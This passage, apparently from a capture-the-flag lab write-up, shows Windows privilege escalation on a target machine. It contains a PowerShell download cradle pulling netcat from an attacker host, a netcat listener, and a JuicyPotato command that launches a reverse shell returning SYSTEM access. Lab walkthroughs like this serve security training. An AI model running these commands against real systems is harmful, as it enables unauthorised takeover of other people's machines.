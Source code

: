```
+ IEX(New-Object Net.WebClient).downloadFile('http://10.10.14.6:8000/nc ...
+    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidData: (:) [Invoke-Expression], ParameterBindingValidationException
    + FullyQualifiedErrorId : ParameterArgumentValidationErrorNullNotAllowed,Microsoft.PowerShell.Commands.InvokeExpre 
   ssionCommand
 

C:\Users\Public>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Public

10/04/2024  09:12 PM    <DIR>          .
10/04/2024  09:12 PM    <DIR>          ..
10/25/2017  04:42 PM    <DIR>          Documents
10/30/2015  03:24 AM    <DIR>          Downloads
10/04/2024  09:09 PM                 0 JuicyPotato
10/04/2024  08:58 PM           347,648 JuicyPotato.exe
10/30/2015  03:24 AM    <DIR>          Music
10/04/2024  09:12 PM            59,392 nc.exe
10/30/2015  03:24 AM    <DIR>          Pictures
10/30/2015  03:24 AM    <DIR>          Videos
               3 File(s)        407,040 bytes
               7 Dir(s)   2,607,972,352 bytes free
```

- Starting a nc listener on port 443 for revshell
```
┌──(root㉿kali)-[~/Downloads]
└─# nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.63] 49730
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

- Running `JuicyPotato` and catching a reverse shell in `nc`
```
C:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\nc.exe -e cmd.exe 10.10.14.6 443" -t *
JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\nc.exe -e cmd.exe 10.10.14.6 443" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
